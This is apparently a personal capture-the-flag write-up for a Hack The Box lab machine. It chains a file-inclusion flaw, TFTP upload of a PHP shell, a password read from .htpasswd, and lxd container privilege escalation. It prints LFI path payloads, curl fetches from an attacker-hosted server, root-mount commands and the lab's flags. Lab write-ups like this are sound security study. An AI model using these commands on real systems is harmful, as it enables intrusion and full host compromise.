 - Open ports
	- TCP
	  
	  ```
	  80/tcp open  http
	  ```
	- UDP
	  id:: 655238b7-09f8-454b-ba4a-40a2d4b29455
	  
	  ```
	  68/udp open|filtered dhcpc
	  69/udp open|filtered tftp
	  ```
- Finding
	- LFI at `http://10.129.38.202/?file=`
	  id:: 655238e3-68b6-42e6-9ec4-6edf9f86c35e
	- OS usernames
	  *Fetched from `http://10.129.38.202/?file=../../../../../../../../etc/passwd`*
	  ```
	  # Only list the most interesting ones
	  root
	  [...]
	  backup
	  mike
	  tftp
	  [...]
	  ```
	- CANCELED Tested RFI but didn't work
	- Try to use `gobuster` to search for known dotfiles in `/home/mike`
	  *Used this dotfiles oriented [wordlist](https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/dotfiles.txt)*.
	  ```bash
	  > gobuster fuzz -u "http://10.129.38.202/?file=../../../../../../../../home/mike/FUZZ" -w wordlist-dotfiles.txt --exclude-length 0
	  [...]
	  Found: [Status=200] [Length=15] [Word=.bash_profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_profile
	  Found: [Status=200] [Length=220] [Word=.bash_logout] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_logout
	  Found: [Status=200] [Length=3771] [Word=.bashrc] http://10.129.38.202/?file=../../../../../../../../home/mike/.bashrc
	  Found: [Status=200] [Length=807] [Word=.profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.profile
	  ```
	  No interesting files found.
	- Found an interesting `.htpasswd` file
	  id:: 65523a47-5070-40a1-af56-9b48b9b351b4
	  
	  ```bash
	  > curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
	  ===TODO===: Search for a wordlist optimized for webservers file and use it with `gobuster`.
	  #+BEGIN_CAUTION
	  mike:Sheffield19
	  #+END_CAUTION
	  
	  #+BEGIN_TIP
	  I now have the username and password coming from a `.htpasswd` file. Maybe `mike` reuse the same password for his OS user.
	  #+END_TIP
	- I can upload files via [TFTP](logseq://graph/HTB-Notes?block-id=655238b7-09f8-454b-ba4a-40a2d4b29455) and execute php file via the [LFI](logseq://graph/HTB-Notes?block-id=655238e3-68b6-42e6-9ec4-6edf9f86c35e).
		- Upload a php shell via TFTP.
		- Execute the php shell with the LFI.
		- ```bash
		  > id
		  uid=33(www-data) gid=33(www-data) groups=33(www-data)
		  > www-data@included:/$ su mike
		  Password: Sheffield19
		  > id
		  uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
		  ```
	- **User flag** at `/home/mike/user.txt`
		- a56ef91d70cfbf2cdb8f454c006935a1
		  background-color:: green
- ### Privesc
	- The user `mike` is part of the group `lxc(108)`. We can upload an lxc container image to the target machine and start a privileged container to escalate privileges.
		- Prepare the container image in Kali
		  *Download the unified (incus.tar.xz and rootfs.tar.xz) lxc image for alpine from [here](https://images.linuxcontainers.org/images/)*
		  ```bash
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/incus.tar.xz" -o incus.tar.xz
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/rootfs.tar.xz" -o rootfs.tar.xz
		  ```
		- Spawn a webserver to later upload those files to the victim machine
		- Import the alpine container image to the target machine
		  *From the target machine*
		  ```bash
		  # Fetch the alpine image
		  curl "http://10.10.14.147:8000/alpine.tar.xz" -o alpine.tar.xz
		  curl "http://10.10.14.147:8000/rootfs.tar.xz" -o rootfs.tar.xz
		  # Import it
		  lxc image import incus.tar.xz rootfs.tar.xz --alias alpine
		  # Check if it got imported
		  mike@included:~$ lxc image ls
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION                |  ARCH  |  SIZE  |         UPLOAD DATE          |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | alpine | 9bea64510930 | no     | Alpinelinux 3.15 x86_64 (20231107_13:00) | x86_64 | 2.45MB | Nov 12, 2023 at 5:22pm (UTC) |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  ```
		- Start a privileged container
		  
		  ```bash
		  lxc init alpine privesc -c security.privileged=true
		  lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
		  lxc start privesc
		  ```
		- Access the container and all its loots
		  ```bash
		  lxc exec privesc /bin/sh
		  ```
	- **Root flag** at `/root/root.txt`
		- c693d9c7499d9f572ee375d4c14c7bcf
		  background-color:: green
- tags:: lxc